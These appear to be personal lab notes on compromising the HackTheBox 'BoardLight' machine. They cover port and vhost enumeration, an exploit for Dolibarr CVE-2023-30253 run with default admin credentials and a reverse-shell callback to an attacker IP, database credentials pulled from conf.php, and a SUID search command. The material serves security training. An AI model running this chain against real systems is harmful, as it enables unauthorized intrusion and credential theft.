

Target IP Address: 10.10.11.11

nmap:

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDH0dV4gtJNo8ixEEBDxhUId6Pc/8iNLX16+zpUCIgmxxl5TivDMLg2JvXorp4F2r8ci44CESUlnMHRSYNtlLttiIZHpTML7ktFHbNexvOAJqE1lIlQlGjWBU1hWq6Y6n1tuUANOd5U+Yc0/h53gKu5nXTQTy1c9CLbQfaYvFjnzrR3NQ6Hw7ih5u3mEjJngP+Sq+dpzUcnFe1BekvBPrxdAJwN6w+MSpGFyQSAkUthrOE4JRnpa6jSsTjXODDjioNkp2NLkKa73Yc2DHk3evNUXfa+P8oWFBk8ZXSHFyeOoNkcqkPCrkevB71NdFtn3Fd/Ar07co0ygw90Vb2q34cu1Jo/1oPV1UFsvcwaKJuxBKozH+VA0F9hyriPKjsvTRCbkFjweLxCib5phagHu6K5KEYC+VmWbCUnWyvYZauJ1/t5xQqqi9UWssRjbE1mI0Krq2Zb97qnONhzcclAPVpvEVdCCcl0rYZjQt6VI1PzHha56JepZCFCNvX3FVxYzEk=
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK7G5PgPkbp1awVqM5uOpMJ/xVrNirmwIT21bMG/+jihUY8rOXxSbidRfC9KgvSDC4flMsPZUrWziSuBDJAra5g=
|   256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILHj/lr3X40pR3k9+uYJk4oSjdULCK0DlOxbiL66ZRWg
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Access website:
Website use PHP, Apache/2.4.41 (Ubuntu)

http://10.10.11.11/contact.php

The SEND and Subcribe button don't send any body to the server.
It seems that no element in the main page of website can be exploited.
Try to use gobuster to find hidden page.

Use wordlist from https://github.com/danielmiessler/SecLists/

gobuster dir -u http://10.10.11.11 -w /usr/share/seclists/Discovery/Web-Content/combined_directories.txt

Tuan suggests scan subdomain
ffuf -u http://board.htb:80/ -t 10 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.board.htb" -mc all -fs 15949 -r -noninteractive -s | tee "/home/kali/htb-boardlight/results/boardlight.htb/scans/tcp80/tcp_80_http_boardlight.htb_vhosts_subdomains-top1million-110000.txt"

Scan vhost:

ffuf -u http://board.htb -H "Host: FUZZ.board.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -mc 200 -fc 404 -t 40 -fs 15949 | tee results.txt

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 66ms]

/etc/hosts
# For HTB
10.10.11.11 board.htb
10.10.11.11 crm.board.htb

https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253

https://github.com/Rubikcuv5/cve-2023-30253

python3 CVE-2023-30253.py --url http://crm.board.htb -u admin -p admin -r  10.10.14.50  8081

successfully.

another user: larissa

/var/www/html/crm.board.htb/htdocs/conf/conf.php

$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';

find / -perm -4000 2>/dev/null

